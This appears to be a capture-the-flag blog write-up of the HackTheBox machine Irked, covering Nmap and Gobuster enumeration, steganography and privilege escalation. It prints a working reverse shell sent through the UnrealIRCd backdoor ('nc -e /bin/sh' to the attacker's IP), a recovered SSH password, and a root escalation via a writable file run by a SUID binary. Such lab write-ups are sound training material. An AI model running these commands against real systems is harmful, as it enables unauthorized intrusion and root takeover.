


+++
authors = ["Matt Johnson"]
title = 'HTB: Irked Writeup'
date = '2020-05-04'
description = "Here's how to solve HackTheBox's Irked."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's Irked."
+++



# High-Level Information

Machine Name: Irked

IP Address: 10.10.10.117

Difficulty: Easy

Summary: HackTheBox's Irked was a simple machine with a fun, steganographic twist. In order to get an initial low shell on the system, one needs to exploit a backdoor in UnrealIRCd. Once on the box, there is a file called '.backup' in the 'djmardov' user's home directory that hints at their password being hidden in an image. Using steghide, the user password can be derived from an image on the web server's index page. As 'djmardov', one then has permission to write to a file executed by a custom SUID program, which can be exploited to get a root shell.

Tools Used: Nmap, Gobuster, Tcpdump, Netcat, Steghide

# Initial Foothold

```shell
matt@kali:~/htb/irked$ sudo /opt/stagednmap.sh 10.10.10.117
[sudo] password for matt:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:03 CDT
Nmap scan report for 10.10.10.117
Host is up (0.13s latency).
Not shown: 65528 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
6697/tcp open ircs-u
8067/tcp open infi-async
54751/tcp open unknown
65534/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 316.24 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:08 CDT
Nmap scan report for 10.10.10.117
Host is up (0.13s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
| 1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
| 2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
| 256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_ 256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp open http Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100024 1 50726/udp status
| 100024 1 51484/udp6 status
| 100024 1 54751/tcp status
|_ 100024 1 60159/tcp6 status
6697/tcp open irc UnrealIRCd
8067/tcp open irc UnrealIRCd
54751/tcp open status 1 (RPC #100024)
65534/tcp open irc UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.8 (95%), Linux 4.9 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 22/tcp)
HOP RTT ADDRESS
1 132.84 ms 10.10.14.1
2 133.08 ms 10.10.10.117
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.93 seconds
```

As is often the case, I began by enumerating the web server:

 



```shell
matt@kali:~/htb/irked$ gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 50 --url http://10.10.10.117
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.10.117
[+] Threads: 50
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2020/05/03 10:07:13 Starting gobuster
===============================================================
/manual (Status: 301)
/server-status (Status: 403)
===============================================================
2020/05/03 10:16:51 Finished
===============================================================      
matt@kali:~/htb/irked$ 
```

The web server appeared to be nothing more than an index page and some Apache documentation.

After the web enumeration, I began enumerating UnrealIRCd and discovered that it had a backdoor that allowed remote code execution:

```shell
matt@kali:~/htb/irked$ nmap -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='ping -c 2 10.10.14.17' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:24 CDT
Nmap scan report for 10.10.10.117
Host is up (0.13s latency).
PORT STATE SERVICE
6667/tcp closed irc
Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
matt@kali:~/htb/irked$ nmap -p8067 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='ping -c 2 10.10.14.17' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:25 CDT
Nmap scan report for 10.10.10.117
Host is up (0.18s latency).
PORT STATE SERVICE
8067/tcp open infi-async
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Nmap done: 1 IP address (1 host up) scanned in 19.97 seconds
matt@kali:~/htb/irked$ nmap -p65534 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='ping -c 2 10.10.14.17' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:25 CDT
Nmap scan report for 10.10.10.117
Host is up (0.17s latency).
PORT STATE SERVICE
65534/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds
matt@kali:~/htb/irked$ 
```

```shell
matt@kali:~/htb/irked$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
10:25:28.002204 IP 10.10.10.117 > 10.10.14.17: ICMP echo request, id 1071, seq 1, length 64
10:25:28.002280 IP 10.10.14.17 > 10.10.10.117: ICMP echo reply, id 1071, seq 1, length 64
10:25:29.036050 IP 10.10.10.117 > 10.10.14.17: ICMP echo request, id 1071, seq 2, length 64
10:25:29.036111 IP 10.10.14.17 > 10.10.10.117: ICMP echo reply, id 1071, seq 2, length 64
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```

After confirming that I was able to get code execution on port 8067, I set up a netcat listener and got a low shell:

```shell
matt@kali:~/htb/irked$ nmap -p8067 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -e /bin/sh 10.10.14.17 80' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:30 CDT
Nmap scan report for 10.10.10.117
Host is up (0.19s latency).
PORT STATE SERVICE
8067/tcp open infi-async
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).
Nmap done: 1 IP address (1 host up) scanned in 23.52 seconds
```

```shell
matt@kali:~/htb/irked$ sudo nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.117] 35579
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

# Privilege Escalation

I began my internal enumeration by running linPEAS, but didn't get too much information besides the fact that there was an SUID program called 'viewuser'. Further manual enumeration led to me finding the user flag (which I was not able to view) and a hidden file called '.backup' (which I was able to view).

```shell
ircd@irked:/home$ ls
djmardov ircd
ircd@irked:/home$ ls -la
total 16
drwxr-xr-x 4 root root 4096 May 14 2018 .
drwxr-xr-x 21 root root 4096 May 15 2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Nov 3 2018 djmardov
drwxr-xr-x 3 ircd root 4096 May 15 2018 ircd
ircd@irked:/home$ cd djmardov
ircd@irked:/home/djmardov$ ls
Desktop Documents Downloads Music Pictures Public Templates Videos
ircd@irked:/home/djmardov$ cd Desktop
ircd@irked:/home/djmardov/Desktop$ ls
ircd@irked:/home/djmardov/Desktop$ ls -la
total 8
drwxr-xr-x 2 djmardov djmardov 4096 May 11 2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov 3 2018 ..
ircd@irked:/home/djmardov/Desktop$ cd ..
ircd@irked:/home/djmardov$ ls Documents/
user.txt
ircd@irked:/home/djmardov$ cd Documents/
ircd@irked:/home/djmardov/Documents$ cat user.txt
cat: user.txt: Permission denied
ircd@irked:/home/djmardov/Documents$ ls -la
total 16
drwxr-xr-x 2 djmardov djmardov 4096 May 15 2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov 3 2018 ..
-rw-r--r-- 1 djmardov djmardov 52 May 16 2018 .backup
-rw------- 1 djmardov djmardov 33 May 15 2018 user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss    
ircd@irked:/home/djmardov/Documents$
```

It took me quite a while to figure out what I was supposed to do with this information. I knew it related to steganography, but I had no experience with it and didn't know where to begin. I eventually came across a tool called steghide, which is used to derive password-protected messages from images. I remembered that there was an image on the main page of the web server, so I attempted to use the tool against it:

```shell
matt@kali:~/htb/irked$ steghide info irked.jpg
"irked.jpg":
    format: jpeg
    capacity: 1.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
    embedded file "pass.txt":
    size: 17.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
matt@kali:~/htb/irked$ steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
matt@kali:~/htb/irked$ cat pass.txt
Kab6h+m+bbp2J:HG
matt@kali:~/htb/irked$
```

This turned out to be the password for 'djmardov'.

```shell
matt@kali:~$ ssh djmardov@10.10.10.117
The authenticity of host '10.10.10.117 (10.10.10.117)' can't be established.
ECDSA key fingerprint is SHA256:kunqU6QEf9TV3pbsZKznVcntLklRwiVobFZiJguYs4g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.117' (ECDSA) to the list of known hosts.
djmardov@10.10.10.117's password:
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$
```

Once I was able to get the user flag, I began to focus my attention on getting a root shell.

My earlier enumeration using linPEAS notably didn't yield much, so I knew I had to look for some sort of misconfiguration. I remember that there was an unusual SUID binary 'viewuser' in the /usr/bin/ folder. I performed some initial enumeration, which resulted in this:

```shell
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/0 2020-05-03 13:05 (10.10.14.37)
sh: 1: /tmp/listusers: not found
djmardov@irked:/usr/bin$ echo 'echo hello' > /tmp/listusers
djmardov@irked:/usr/bin$ chmod +x /tmp/listusers
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/0 2020-05-03 13:07 (10.10.14.37)
hello
djmardov@irked:/usr/bin$ echo 'id' > /tmp/listusers
djmardov@irked:/usr/bin$ chmod +x /tmp/listusers
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/0 2020-05-03 13:12 (10.10.14.37)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:/usr/bin$ 
```

So without looking at the source code, one could assume that it is running some sort of system call to '/tmp/listusers'. The unfortunate thing, for them anyway, is that there appears to be no input validation. Given this, simply writing `bash -i` and making it executable should grant a root shell:

```shell
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/1 2020-05-03 16:38 (10.10.14.17)
sh: 1: /tmp/listusers: not found
djmardov@irked:/usr/bin$ echo 'bash -i' > /tmp/listusers
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/1 2020-05-03 16:38 (10.10.14.17)
sh: 1: /tmp/listusers: Permission denied
djmardov@irked:/usr/bin$ chmod +x /tmp/listusers
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/1 2020-05-03 16:38 (10.10.14.17)
root@irked:/usr/bin# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:/usr/bin# 
```